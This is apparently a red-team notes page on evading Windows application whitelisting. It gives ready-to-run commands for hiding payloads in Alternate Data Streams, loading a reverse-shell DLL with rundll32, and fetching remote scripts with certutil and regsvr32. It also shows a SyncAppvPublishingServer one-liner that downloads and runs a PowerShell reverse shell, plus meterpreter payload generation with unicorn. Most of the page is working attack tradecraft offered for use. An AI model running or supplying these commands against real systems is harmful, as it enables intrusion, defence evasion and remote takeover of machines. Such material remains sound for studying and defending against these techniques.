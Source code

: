 # ⭕ Basic Tricks

## <mark style="color:red;">LOLBins</mark>

Using [LOLBins](https://lolbas-project.github.io) we can bypass some protections and execute malicious payloads.

{% embed url="https://lolbas-project.github.io" %}

{% hint style="info" %}
To search for a specific function in LOL binaries, use `/function` key word. for example : `/execute`
{% endhint %}

## <mark style="color:red;">Alternate Data Streams</mark>

#### Execute a `.EXE` file stored as an Alternate Data Stream (ADS)

```
wmic.exe process call create "c:\ads\file.txt:program.exe"
```

Download and save a PS1 file to an Alternate Data Stream (ADS).

```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt
```

Add content to an Alternate Data Stream (ADS).

```
cmd.exe /c echo regsvr32.exe ^/s ^/u ^/i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.010/src/RegSvr32.sct ^scrobj.dll > fakefile.doc:payload.bat
```

Execute evil.dll which is stored in an Alternate Data Stream (ADS).

```
control.exe c:\windows\tasks\file.txt:evil.dll
```

Use cscript.exe to exectute a Visual Basic script stored in an Alternate Data Stream (ADS).

```
cscript c:\ads\file.txt:script.vbs
```

## <mark style="color:red;">Using DLLs & macros</mark>

We can create a DLL containing a Metasploit payload and then run it on the victim system via the rundll32.exe available in all versions of Windows. This is often available, even with SRP enabled, as it is located in C:\Windows and is not restricted by default in many SRP deployments. Scripts and macro payloads are also valuable. Macros especially tend to be allowed for complicated forms and other Office document functionality.

```
C:\> rundll32.exe reverse_shell.dll,Main
```

After we execute the command rundll32.exe CALC.dll,DoesntExist, our DLL will be loaded into memory, and our embedded Metasploit payload will be run through the initialization code. The DoesntExist parameter needs to be included, but it does not have to be a real function exported by the DLL

#### <mark style="color:green;">example:</mark>

copy cmd.exe to another location with another name and windows screen saver file format then use rundll32.exe to execute the binary:

```
copy c:\windows\system32\cmd.exe c:\cmd.scr
rundll32.exe desk.cpl,InstallScreenSaver c:\cmd.scr
```

## <mark style="color:red;">Powershell without powershell.exe</mark>

Powershell.exe is just a process hosting the System.Management.Automation.dll which essentially is the actual Powershell as we know it.

If you run into a situation where powershell.exe is blocked and no strict application whitelisting is implemented, there are ways to execute powershell still.

```
rundll32.exe PowerShdll.dll,main
```

### <mark style="color:orange;">SyncAppvPublishingServer</mark>

Windows 10 comes with `SyncAppvPublishingServer.exe and` `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

example:

#### <mark style="color:green;">getting a reverse shell with SyncAppvPublishingServer and powershell.</mark>

generate a powershell payload and serve it on the network, use this command to call powershell from vba and load the payload in memory.

```
SyncAppvPublishingServer.vbs "Break; iex(new-object system.net.webclient).downloadstring('http://192.168.56.1/rev.ps1')"
```

{% hint style="info" %}
#### This technique can easily bypass application whitelisting.
{% endhint %}

{% embed url="https://youtu.be/7tvfb9poTKg" %}

{% embed url="https://github.com/p3nt4/PowerShdll" %}

## <mark style="color:red;">Using Payload Wrappers</mark>

we can use various open source payload wrappers that add an extra layer to msfvenom payloads. not much of an FUD payload, but still effective.

{% embed url="https://github.com/trustedsec/unicorn" %}

for example with unicorn tool:

```
unicorn.py windows/meterpreter/reverse_tcp X.X.X.X 443 hta
```

or

```
python unicorn.py windows/meterpreter/reverse_https 192.168.5.5 443 dde
```

## <mark style="color:red;">System DLLs</mark>

we can use functions from system DLLs such as CMD screensaver.

```
C:\Windows> copy System32\cmd.exe Temp\cmd.scr
C:\Windows> rundll32.exe desk.cpl,InstallScreenSaver
```

## <mark style="color:red;">Multi-level Execution</mark>

By using multiple levels of execution, it could be possible to stumble into one that is explicitly allowed or has special privileges. Here we see `cmd.exe` running `cscript.exe`, which runs a VBS script included with Windows. This script can be abused to run other things. A great side effect of using this script: it is signed by Microsoft, and therefore often explicitly allowed to run. Then the PowerShell process is started, using a `“- Verb RunAs”` argument which attempts to re-establish `“High Integrity”` context, essentially giving an administrative user back their administration rights.

```
cmd.exe /c cscript.exe \windows\system32\SyncAppvPublishingServer.vbs ".;Start-Process rundll32.exe 'shell32.dll,ShellExec_runDLL cmd.exe' -Verb RunAs" 
```

we can do the same with powershell:

```
Powershell.exe -Command Set-ExecutionPolicy RemoteSigned -Scope Process; Powershell.exe -File "path to master script"
```

## <mark style="color:red;">Evasion Tools and Frameworks</mark>

{% embed url="https://github.com/hlldz/SpookFlare" %}

## <mark style="color:red;">Runners & Crypters</mark>

{% embed url="https://github.com/spyblocker/OSEP-Breaking-Chains" %}
